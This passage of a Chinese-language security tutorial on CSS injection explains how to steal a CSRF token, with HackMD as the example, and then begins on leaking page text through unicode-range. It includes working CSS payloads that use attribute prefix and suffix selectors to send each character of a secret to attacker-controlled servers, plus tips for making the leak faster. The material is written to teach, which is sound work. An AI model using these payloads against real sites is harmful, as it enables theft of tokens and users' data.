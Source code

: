 若是想要在現實世界中執行這種攻擊，效率可能要再更好一點。以 HackMD 為例，CSRF token 總共有 36 個字，所以就要發 36 個 request，確實是太多了點。

事實上，我們一次可以偷兩個字元，因為上集有講過除了 prefix selector 以外，也有 suffix selector，所以可以像這樣：

``` css
input[name="secret"][value^="a"] {
  background: url(https://b.myserver.com/leak?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://b.myserver.com/leak?q=b)
}

// ...
input[name="secret"][value$="a"] {
  border-background: url(https://b.myserver2.com/suffix?q=a)
}

input[name="secret"][value$="b"] {
  border-background: url(https://b.myserver2.com/suffix?q=b)
}
```

除了偷開頭以外，我們也偷結尾，效率立刻變成兩倍。要特別注意的是開頭跟結尾的 CSS，一個用的是 `background`，另一個用的是 `border-background`，是不同的屬性，因為如果用同一個屬性的話，內容就會被其他的蓋掉，最後只會發出一個 request。

若是內容可能出現的字元不多，例如說 16 個的話，那我們可以直接一次偷兩個開頭加上兩個結尾，總共的 CSS rule 數量為 `16*16*2` = 512 個，應該還在可以接受的範圍內，就能夠再加速兩倍。

除此之外，也可以朝 server 那邊去改善，例如說改用 HTTP/2 或甚至是 HTTP/3，都有機會能夠加速 request 載入的速度，進而提升效率。

## 偷其他東西

除了偷屬性之外，有沒有辦法偷到其他東西？例如說，頁面上的其他文字？或甚至是 script 裡面的程式碼？

根據我們在上一篇裡面講的原理，是做不到的。因為能偷到屬性是因為「屬性選擇器」這個東西，才讓我們選到特定的元素，而在 CSS 裡面，並沒有可以選擇「內文」的選擇器。

因此，我們需要對 CSS 以及網頁上的樣式有更深入的理解，才有辦法達成這件看似不可能的任務。

### unicode-range

在 CSS 裡面，有一個屬性叫做「unicode-range」，可以針對不同的字元，載入不同的字體。像是底下這個從 [MDN](https://developer.mozilla.org/en-US/docs/Web/CSS/@font-face/unicode-range) 拿來的範例：

``` html
<!DOCTYPE html>
<html>
  <body>
    <style>
      @font-face {
        font-family: "Ampersand";
        src: local("Times New Roman");
        unicode-range: U+26;
      }

      div {
        font-size: 4em;
        font-family: Ampersand, Helvetica, sans-serif;
      }
    </style>
    <div>Me & You = Us</div>
  </body>
</html>

```
